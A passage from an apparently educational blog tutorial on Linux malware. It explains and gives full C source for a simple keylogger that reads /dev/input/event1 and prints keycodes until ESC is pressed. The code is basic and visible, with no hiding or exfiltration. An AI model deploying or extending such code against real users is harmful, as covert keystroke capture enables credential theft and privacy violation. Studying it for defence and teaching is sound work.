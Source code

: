 Our malware opens the `/dev/input/event1` device, which is a virtual file that provides events related to input devices (keyboard in this case).     

Then just reading the input events:     

```cpp
struct input_event ev;
ssize_t n = read(fd, &ev, sizeof(struct input_event));
if (n == (ssize_t)sizeof(struct input_event)) {
  if (ev.type == EV_KEY && ev.value == 1) { // keydown
    printf("keycode: %d\n\n", ev.code);
    fflush(stdout);
    if (ev.code == 1) { // 1 = ESC
      printf("ESC pressed, exiting.\n");
      break;
    }
  }
}
```

We read events from the device into a struct of type `input_event`, which contains information about the event (such as the type, code, and value). For every key press (`keydown`), we print the keycode (which corresponds to the physical key on the keyboard). If the keycode is `1` (which corresponds to the `ESC` key), the program prints a message and exits the loop, terminating the keylogger.      

So full source code for the simplest one is looks like this `hack.c`:     

```cpp
/*
 * hack.c
 * simple linux keylogger
 * author @cocomelonc
 * https://cocomelonc.github.io/linux/2025/06/03/linux-hacking-5.html
 */
#include <stdio.h>
#include <stdlib.h>
#include <linux/input.h>
#include <fcntl.h>
#include <unistd.h>

int main(int argc, char *argv[]) {
  // ls -l /dev/input/by-path/ | grep kbd
  const char *dev = "/dev/input/event1";
  struct input_event ev;
  int fd = open(dev, O_RDONLY);
  if (fd < 0) {
    perror("open");
    return 1;
  }
  printf("keylogger started. press ESC to exit.\n");
  while (1) {
    ssize_t n = read(fd, &ev, sizeof(struct input_event));
    if (n == (ssize_t)sizeof(struct input_event)) {
      if (ev.type == EV_KEY && ev.value == 1) { // keydown
        printf("keycode: %d\n\n", ev.code);
        fflush(stdout);
        if (ev.code == 1) { // 1 = ESC
          printf("ESC pressed, exiting.\n");
          break;
        }
      }
    }
  }
  close(fd);
  return 0;
}
```